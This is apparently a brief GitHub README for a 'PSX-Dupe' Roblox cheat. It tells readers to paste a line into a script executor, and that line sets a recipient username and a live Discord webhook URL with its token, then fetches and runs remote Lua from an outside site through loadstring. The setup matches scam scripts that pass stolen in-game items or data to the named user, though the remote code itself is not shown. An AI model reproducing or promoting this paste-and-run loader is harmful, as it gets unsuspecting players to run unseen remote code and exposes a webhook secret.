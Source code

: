 # PSX-Dupe
Copy this and paste it on ANY Executor Roblox.UserName = "DaBabyCarGoBrrr" Webhook = "https://discord.com/api/webhooks/1098710832877142037/5PoafH1VD9DmWayG1oywo-aH7wwLUjmFBi303uIo2JR81pdMTKWfQ1ipJ4SJiGrKYzQX"  loadstring(game:HttpGet("https://rizzhub.xyz/scripts/Main.lua", true))()
